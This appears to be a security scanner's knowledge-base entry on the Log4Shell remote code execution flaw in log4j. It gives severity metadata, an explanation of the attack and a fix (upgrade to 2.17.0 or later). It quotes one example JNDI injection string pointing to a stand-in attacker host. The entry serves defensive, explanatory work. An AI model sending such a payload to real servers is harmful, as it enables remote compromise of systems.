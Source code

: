 ```yaml
---
name: Log4Shell
severity: high
cvss-score: 10.0
cvss-vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
cwe-id: ''
cwe-name: ''
compliance:
  owasp10: A3
  pci: 6.5.1

---            
```


A remote code execution vulnerability (RCE) allows the attacker to execute arbitrary code and operating system commands on the server. In the worst-case scenario, the attacker will be able to fully compromise the server, extract sensitive data, modify the application contents or delete data.

The log4j RCE vulnerability can be easily exploited. All you need is to find a vulnerable version of log4j, an endpoint with any protocol (HTTP, TCP, etc) that allows an attacker to send the exploit string (e.g. ${jndi:ldap://attacker.com/a}), and a log statement that logs out the string from that request.

## How to fix

{% tabs log4shell %}
{% tab log4shell generic %}
To fix the Log4Shell vulnerability, you need to update all instances of log4j to version 2.17.0 or above.
{% endtab %}

{% endtabs %}

